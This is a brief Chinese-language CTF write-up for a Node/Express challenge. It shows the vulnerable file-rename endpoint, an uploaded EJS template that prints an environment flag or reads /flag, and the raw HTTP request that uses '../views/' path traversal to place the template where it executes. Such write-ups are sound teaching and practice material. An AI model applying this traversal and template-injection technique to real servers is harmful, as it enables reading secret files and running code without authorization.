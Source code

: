 ```js
  }

  fs.rename(oldPath, newPath, (err) => {
    if (err) {
      return res.status(500).json({ error: ' ' + err.message });
    }
    res.json({ message: ' ' });
  });
});

app.listen(port, () => {
  console.log(`服务器运行在 http://localhost:${port}`);
});

```

很明显要利用rename路径

上传一个文件1.ejs，内容为

```js
<%= process.env.FLAG || require('fs').readFileSync('/flag', 'utf8') %>
```

然后burpsuite抓包，在rename目录下改文件名触发路径穿越

结合express框架的知识（app.js）可以知道要把文件放到views目录下

```1c

POST /rename HTTP/1.1

Host: node2.hgame.vidar.club:30389

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

If-None-Match: W/"1982-tCwmIaRF/b9+ySE9QjHMqwNikmo"

Connection: keep-alive

Content-Type: application/json

Content-Length: 51

{"oldName":"1.ejs","newName":"../views/mortis.ejs"}
```
